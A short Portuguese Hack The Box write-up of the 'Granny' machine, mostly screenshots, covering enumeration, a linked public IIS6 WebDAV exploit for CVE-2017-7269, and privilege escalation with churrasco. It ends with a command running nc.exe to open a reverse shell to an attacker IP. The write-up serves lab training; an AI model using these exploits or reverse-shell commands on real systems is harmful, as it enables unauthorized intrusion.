 Enumeração de serviços:
![[Write-up/Hack The Box/Granny/img/Pasted image 20240228114434.png]]
Descoberta de arquivos importantes, indicando que o servidor possui o FrontPage instalado:
![[Write-up/Hack The Box/Granny/img/Pasted image 20240228130926.png]]
Depois de perder um tempo procurando formas de explorar o FrontPage, foquei nas vulnerabilidades do webdav e encontrei a CVE -2017-7269 e o seguinte exploit:
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
![[Write-up/Hack The Box/Granny/img/Pasted image 20240228142323.png]]
Vamos utilizar o exploit churrasco para escalar privilégio:
![[Write-up/Hack The Box/Granny/img/Pasted image 20240228154236.png]]

```powershell
churrasco.exe -d "C:\Windows\Temp\nc.exe 10.10.14.9 1244 -e C:\Windows\System32\cmd.exe"

```